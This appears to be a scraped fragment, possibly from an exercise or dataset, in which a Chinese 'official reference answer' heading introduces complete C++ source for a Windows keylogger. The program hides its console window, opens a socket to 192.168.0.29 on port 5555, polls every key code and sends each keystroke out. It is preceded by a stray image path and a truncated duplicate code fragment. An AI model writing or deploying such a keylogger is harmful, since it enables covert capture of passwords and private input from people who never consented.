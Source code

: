 ```cpp
		{
			if (GetAsyncKeyState(KEY) == -32767) // if a key was pressed
			{
				char buffer[2]; // declare a variable that will hold the pressed key
				buffer[0] = KEY; // insert the key into the variable
				send(server, buffer, sizeof(buffer), 0); // send it over the network
			}
		}

	}
	closesocket(server);
	WSACleanup();

}
```

**官方参考答案（去掉注释）：**

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>

int main()
{
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    char KEY;

    WSADATA WSAData;
    SOCKET server;
    SOCKADDR_IN addr;

    WSAStartup(MAKEWORD(2, 0), &WSAData);
    server = socket(AF_INET, SOCK_STREAM, 0);
    addr.sin_addr.s_addr = inet_addr("192.168.0.29");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);
    connect(server, (SOCKADDR *)&addr, sizeof(addr));

        while (true) {
        Sleep(10);
        for (int KEY = 0x8; KEY < 0xFF; KEY++)
        {
            if (GetAsyncKeyState(KEY) == -32767) {
                        char buffer[2];
                        buffer[0] = KEY;
                        send(server, buffer, sizeof(buffer), 0);
            }
        }
}
closesocket(server);
WSACleanup();
}
```
